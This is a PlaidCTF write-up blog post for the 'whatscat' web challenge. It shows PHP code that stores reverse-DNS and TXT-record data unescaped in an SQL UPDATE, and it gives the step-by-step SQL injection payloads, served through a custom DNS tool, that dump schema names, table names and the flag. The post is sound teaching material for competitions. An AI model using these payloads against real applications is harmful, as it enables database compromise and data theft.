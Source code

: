 ```yaml
---
id: 1856
title: 'PlaidCTF writeup for Web-300 &#8211; whatscat (SQL Injection via DNS)'
date: '2014-04-16T12:29:31-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1856'
permalink: /2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns
categories:
    - dns
    - hacking
    - plaidctf-2014
    - tools
---
```


Hey folks,

This is my writeup for Whatscat, just about the easiest 300-point Web level I've ever solved! I wouldn't normally do a writeup about a level like this, but much like <a href='/2014/plaidctf-web-150-mtpox-hash-extension-attack'>the mtpox</a> level I actually wrote the exact tool for exploiting this, and even wrote a <a href='/2010/stuffing-javascript-into-dns-names'>blog post about it</a> almost exactly 4 years ago - April of 2010. Unlike mtpox, this tool isn't the least bit popular, but it sure made my life easy!
<!--more-->
<h2>The set up</h2>

Whatscat is a php application where people can post photos of cats and comment on them (<a href='https://blogdata.skullsecurity.org/whatscat.tar.bz2'>Here's a copy of the source</a>).

The vulnerable code is in the password-reset code, in login.php, which looks like this:

<pre>
  <span class="Statement">elseif</span> <span class="Special">(</span><span class="Statement">isset</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">reset</span>&quot;<span class="Special">]))</span> <span class="Special">{</span>
    <span class="Statement">$</span><span class="Identifier">q</span> <span class="Statement">=</span> <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">select username,email,id from users where username='%s'</span>&quot;,
      <span class="Identifier">mysql_real_escape_string</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">name</span>&quot;<span class="Special">])))</span>;
    <span class="Statement">$</span><span class="Identifier">res</span> <span class="Statement">=</span> <span class="Identifier">mysql_fetch_object</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">q</span><span class="Special">)</span>;
    <span class="Statement">$</span><span class="Identifier">pwnew</span> <span class="Statement">=</span> &quot;<span class="Constant">cat</span>&quot;<span class="Statement">.</span><span class="Identifier">bin2hex</span><span class="Special">(</span>openssl_random_pseudo_bytes<span class="Special">(</span><span class="Constant">8</span><span class="Special">))</span>;
    <span class="Statement">if</span> <span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Special">)</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;Don't worry %s, we're emailing you a new password at %s&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email<span class="Special">)</span>;
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;If you are not %s, we'll tell them something fishy is going on!&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">)</span>;
<span class="Statement">$</span><span class="Identifier">message</span> <span class="Statement">=</span> <span class="Statement">&lt;&lt;&lt;</span><span class="Special">CAT</span>
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to <span class="Statement">$</span><span class="Identifier">pwnew</span>

If it wasn't you who changed your password, we have logged their IP information as follows:
<span class="Special">CAT</span>;
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
    <span class="Special">}</span>
    <span class="Statement">else</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> &quot;<span class="Constant">Hmm we don't seem to have anyone signed up by that name</span>&quot;;
    <span class="Special">}</span>
</pre>

Specifically, these lines:

<pre>
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
</pre>

The $details variable is being inserted into the database unescaped. I've noted in the past that people trust DNS results just a bit too much, and this is a great example of that mistake! If we can inject SQL code into a DNS request, we're set!

...this is where I wasted a lot of time, because I didn't notice that the print_r() is actually part of the same statement as the line before it - I thought only the reverse DNS entry was being put into the database. As such, my friend <a href='https://twitter.com/mak_kolybabi'>Mak</a>&mdash;who was working on this level first&mdash;tried to find a way to change the PTR record, and broke all kinds of <a href='http://www.skullspace.ca'>SkullSpace</a> infrastructure as a result.

I ended up trying to log in as 'admin'/'password', and, of course, failed. On a hunch, I hit 'forgot password' for admin. That sent me to a <a href='http://mailinator.com/'>Mailinator</a>-like service. I logged into the mailbox, and noticed somebody trying to sql inject using TXT records. This wasn't an actual admin&mdash;like I thought it was&mdash;it was another player who just gave me a huge hint (hooray for disposable mail services!). Good fortune!

Knowing that a TXT record would work, it actually came in handy that Mak controls the PTR records for all SkullSpace ip addresses. He could do something useful instead of breaking stuff! The server I use for blogs (/me waves) and such is on the SkullSpace network, so I got him to set the PTR record to test.skullseclabs.org. In fact, if you do a reverse lookup for '206.220.196.59' right now, you'll still see that:

<pre>
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.
</pre>

I control the authoritative server for test.skullseclabs.org&mdash;that's why it exists&mdash;so I can make it say anything I want for any record. It's great fun! Though arguably overkill for this level, at least I didn't have to flip to my registrar's page every time I wanted to change a record; instead, I can do it quickly using a tool I wrote called <a href='https://github.com/iagox86/nbtool'>dnsxss</a>. Here's an example:

<pre>
$ sudo ./dnsxss <span class="Special">--payload=</span><span class="Statement">&quot;</span><span class="Constant">Hello yes this is test</span><span class="Statement">&quot;</span>
Listening <span class="Statement">for </span>requests on 0.0.0.0:<span class="Constant">53</span>
Will response to queries with: Hello/yes/this/is/<span class="Statement">test</span>

$ dig <span class="Statement">-t</span> txt test123.skullseclabs.org
<span class="Statement">[</span>...<span class="Statement">]</span>
<span class="Statement">;;</span> ANSWER SECTION:
test123.skullseclabs.org. <span class="Constant">1</span>     IN      TXT     <span class="Statement">&quot;</span><span class="Constant">Hello yes this is test.test123.skullseclabs.org</span><span class="Statement">&quot;</span>
</pre>

All I had to do was find the right payload!

<h2>The exploit</h2>

I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

<ul>
  <li>Tack on an extra clause to the UPDATE that would set the 'email' field to another value</li>
  <li>Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap</li>
</ul>

So, let's give this a shot!

<pre>./dnsxss --payload="test', email='test1234', resetinfo='"</pre>

Then I create an account, reset the password from my ip address, and refresh. The full query&mdash;dumped from my test server&mdash;looks like:

<pre><span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] =&gt; Array ( [host] =&gt; test.skullseclabs.org [class] =&gt; IN [ttl] =&gt; 1 [type] =&gt; TXT [txt] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] =&gt; Array ( [0] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span></pre>


As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

<pre>
Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA_NAME from everything:

<pre>./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"</pre>

Then refresh a couple times to find:

<pre>
Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

<pre>./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

<pre>./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

<pre>./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"</pre>

Which gives us:

<pre>
Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

And now we dance.

<h2>Conclusion</h2>

If you're interested in DNS attacks&mdash;this scenario and a whole bunch of others&mdash;come see my talk at <a href='http://www.bsidesquebec.org/'>BSidesQuebec</a> this June!!!